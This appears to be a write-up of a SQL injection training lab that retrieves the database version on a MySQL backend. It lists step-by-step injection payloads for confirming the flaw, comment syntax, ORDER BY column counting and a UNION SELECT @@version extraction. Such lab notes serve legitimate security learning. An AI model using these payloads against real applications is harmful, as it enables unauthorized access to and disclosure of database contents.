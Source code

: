 # SQL injection attack, querying the database type and version on MySQL and Microsoft

### Given

- SQL injection vulnerability in product category filter.

- can use a UNION attack to retrieve the results from an injected query. 

### Task

- Display the database version string


### Analysis
- examine product category filter and append `'` at the end. => gives 500 Internal server error
    - this means, vulnerability of SQLi attack at product category filter is confirmed.
- try commenting out the rest of the query using double hyphen `--` at the end. ==> response [500]
- try commenting out the rest of the query using hash `#` at the end. ==> response [500]
- try commenting out the rest of the query using double hyphens with a white space at the end, `-- -` or `--%20` ==> response [200]
    - white space after double hyphens is comment syntax for MySQL.
    - hence, we can conclude that MySQL is used at the backend.

- checking for number of columns (to perform union based attacks)
    - payload: `ORDER BY 1--` => Response [200]
    - payload: `ORDER BY 2--` => Response [200]
    - payload: `ORDER BY 3--` => Response [500] ==> only two columns present in table

- checking for columns if it supports characters or not
    - payload: `UNION SELECT NULL, NULL-- -` => response [200]
    - payload: `UNION SELECT 'A', NULL-- -` => response [200]
    - payload: `UNION SELECT 'A', 'A'-- -` => response [200] ==> both columns supports the characters

- using payload to check database for MySQL : `SELECT @@version`
    - payload: `'UNION SELECT NULL, @@version-- -` => response [200] ==> lab solved 